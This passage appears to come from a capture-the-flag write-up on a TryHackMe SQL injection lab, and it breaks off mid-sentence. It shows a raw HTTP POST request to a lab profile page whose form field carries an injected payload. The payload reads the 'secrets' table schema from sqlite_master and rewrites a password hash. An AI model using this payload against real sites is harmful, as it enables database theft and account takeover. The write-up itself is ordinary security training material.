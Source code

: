 ![Pasted image 20210804094947](Pasted%20image%2020210804094947.png)

The tables' names are `usertable` and `secrets`. The flag most likely resides in `secrets`.

Determine the columns in the `secrets` table.

```http
POST /sesqli5/profile HTTP/1.1
Host: 10.10.109.88:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 223
Origin: http://10.10.109.88:5000
DNT: 1
Connection: close
Referer: http://10.10.109.88:5000/sesqli5/profile
Cookie: session=.eJy9z7FqAzEMBuB38ZzBOkln382l0CVb5yDbMphecqmdUkrIu9fXlNKxUzfp_0Hou5qm7XUpcEhyETNfzfPTg5lhZ_QoZTGzMTtzkqP26bHKKa6lbUmJL_t72reztHZe62Vf--5HywOzBbKevsv3taZeUfSYnY2SUSBOEimSS8NErDY7n11CFhcnIPEKHkaUqAN6gaA6Qtiu1TWXRbcfDdgeNFmkfph5YHvb_WDemtZDSV-Qe8b_AYzKUUaHCTDgCOATUwdlQNHQ3Ra6BkN2DtQB0gCBEuTkCTLjJH8F8i_g7RPqGYUc.YQqYFg.hBU1GBPvrJ7J_k0Kb6c4JLNtkGA
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

nickName=tgihf',email=(SELECT+sql+FROM+sqlite_master+WHERE+type+%3d+'table'+AND+name+%3d+'secrets'
),password='d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1';--+&email=tgihf%40tryhackme.com&password=pass
```

Revealing the following statement that was used to create the `secrets` table:
